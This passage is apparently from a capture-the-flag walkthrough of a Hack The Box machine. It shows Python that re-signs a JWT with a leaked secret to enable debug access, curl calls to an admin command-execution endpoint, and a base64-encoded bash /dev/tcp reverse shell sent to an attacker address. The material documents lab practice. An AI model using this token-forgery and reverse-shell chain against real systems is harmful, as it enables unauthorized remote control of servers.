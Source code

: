 ```python

print(f"iat timestamp: {iat_timestamp}")
print(f"current time timestamp: {current_time_timestamp}")

print(f"iat datetime: {datetime.datetime.fromtimestamp(iat_timestamp)}")
print(f"current datetime: {datetime.datetime.fromtimestamp(current_time_timestamp)}")
```
- This was the output, As we can see the time skew is 3 hours(approx).
![Pasted image 20250306101600.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250306101600.png?raw=true)
- So I made the code to adapt to the time and forged jwt token
```python
import jwt
import datetime

token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNzQxOTM2OTU0LCJpYXQiOjE3NDEyNDU3NTQsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.eL4UaJ5NCf-TEpWdq21t-kEbO-7YJTmmLLkooJussuE"
secret = "SuperSecretSigningKey-HTB"

leeway = datetime.timedelta(hours=3)
decoder = jwt.decode(token, secret, ["HS256"], leeway=leeway)
print(decoder)

decoder["debug"] = True # Adding debug option.

encoded_token = jwt.encode(decoder, secret, algorithm="HS256") #encode the dictionary.
print(f"Encoded token: {encoded_token}")
```
- Got the token
![Pasted image 20250306101747.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250306101747.png?raw=true)

- Using the token, I executed some commands via `/api/admin/exec/<command>` and It worked 
```bash
curl -v -X 'GET' \
  'http://10.10.11.161/api/v1/admin/exec/pwd' \     
  -H 'accept: application/json' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNzQxOTM2OTU0LCJpYXQiOjE3NDEyNDU3NTQsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQiLCJkZWJ1ZyI6dHJ1ZX0.yWQeRZjjOrROK-XosRoR8lMf52e3YxNtX4bhj3haUBw'
```
![Pasted image 20250306101847.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250306101847.png?raw=true)

- **Getting reverse shell**
    > Encoded bash reverse shell payload into base64.
```bash
echo 'bash -c "exec bash -i &>/dev/tcp/10.10.14.10/6001 <&1"' | base64
```
![Pasted image 20250306102426.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250306102426.png?raw=true)

- Then created this payload, here `%20` represents white space in URL encoded form.
- The raw command here is `echo <Base64-encoded-payload> | base64 -d | bash`
- Final payload for reverse shell:
```bash
curl -s  \                                                                  
  'http://10.10.11.161/api/v1/admin/exec/echo%20YmFzaCAtYyAiZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTAuMTQuMTAvNjAwMSA8JjEiCg==%20|%20base64%20-d%20|%20bash' \
  -H 'accept: application/json' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNzQxOTM2OTU0LCJpYXQiOjE3NDEyNDU3NTQsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQiLCJkZWJ1ZyI6dHJ1ZX0.yWQeRZjjOrROK-XosRoR8lMf52e3YxNtX4bhj3haUBw'
```